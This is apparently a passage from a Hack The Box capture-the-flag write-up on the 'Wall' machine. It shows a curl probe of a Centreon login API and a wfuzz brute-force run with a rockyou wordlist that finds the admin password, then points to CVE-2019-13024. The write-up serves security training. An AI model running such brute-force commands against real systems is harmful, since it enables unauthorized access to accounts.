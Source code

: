 The login API seems to work:

```
# curl -XPOST -d 'username=user&password=pass' 10.10.10.157/centreon/api/index.php?action=authenticate
"Bad credentials"
```

Next, I'll use wfuzz with a wordlist to bruteforce a valid login:

```
# wfuzz -w /opt/SecLists/Passwords/Leaked-Databases/rockyou-10.txt --hs 'Bad credentials' -XPOST -d 'username=admin&password=FUZZ' http://10.10.10.157/centreon/api/index.php?action=authenticate

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 92

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000027:   200        0 L      1 W      60 Ch       "password1"

Total time: 2.605513
Processed Requests: 92
Filtered Requests: 91
Requests/sec.: 35.30973
```

Hahaha, I should have tested this simple password before bruteforcing the login.

I can login to the Centreon app with `admin` / `password1`:

![](/assets/images/htb-writeup-wall/Screenshot_9.png)

The version is probably vulnerable to CVE-2019-13024 since it's running verison 19.04.0:

![](/assets/images/htb-writeup-wall/Screenshot_10.png)
